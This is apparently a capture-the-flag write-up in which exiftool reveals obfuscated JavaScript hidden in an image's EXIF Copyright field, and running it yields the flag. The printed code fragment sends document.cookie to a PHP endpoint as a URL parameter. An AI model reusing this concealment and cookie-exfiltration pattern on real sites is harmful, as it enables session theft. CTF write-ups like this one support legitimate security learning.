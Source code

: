 Download the picture.

Then `exiftool` give next result:

~~~
root@kali:~/Downloads# exiftool change.jpg
ExifTool Version Number         : 12.06
File Name                       : change.jpg
Directory                       : .
...
Copyright                       : var _0xb30f=['qep','0k5','app','ati','kro','fu5','tes','+(\x20','\x20+\x20','^([','LPa','uct','001','sys','Wor','s\x20+','+[^','\x20/\x22','7.0',')+)','ret','loc','\x20]+','ked','/12','htt','l1k','{l0','nCT','GyR','thi','log','3dj','\x20\x22/','LeT','Ryt','^\x20]','con','30b','str','c47'];
...
...
...
0'+_0x19ee('0x0')+'.ph'+'p?c'+'='+document['coo'+'kie'],console[_0x19ee('0x13')](_0x19ee('0x2')+_0x19ee('0xb')+'!'),console[_0x19ee('0x13')](_0x19ee('0x1')+_0x19ee('0x21')+_0x19ee('0x10')+'F'),console[_0x19ee('0x13')](_0x19ee('0xf')+_0x19ee('0x1e')+_0x19ee('0xe')+_0x19ee('0x1a')+_0x19ee('0x22')+_0x19ee('0x1c')+_0x19ee('0x14')+'5}');}abc();
...
Create Date                     : 2020:08:21 13:03:22.00
Date/Time Original              : 2020:08:21 13:03:22.00
Thumbnail Image                 : (Binary data 7707 bytes, use -b option to extract)
~~~

There is JS code. I put it in another file and tried to execute through html `<script src="code.js"></script>`. However, it didn't work and it just redirected me to another file like `localhost/0001.php?c=`. Then i created this empty file and in console i got the flag.

~~~
<html>
<script src="code.js"></script>
</html>
~~~

`systemctl start apache2`

Go to localhost/page.html. Next in console we can see the flag `Worked!syskronCTF{l00k5l1k30bfu5c473dj5}`.
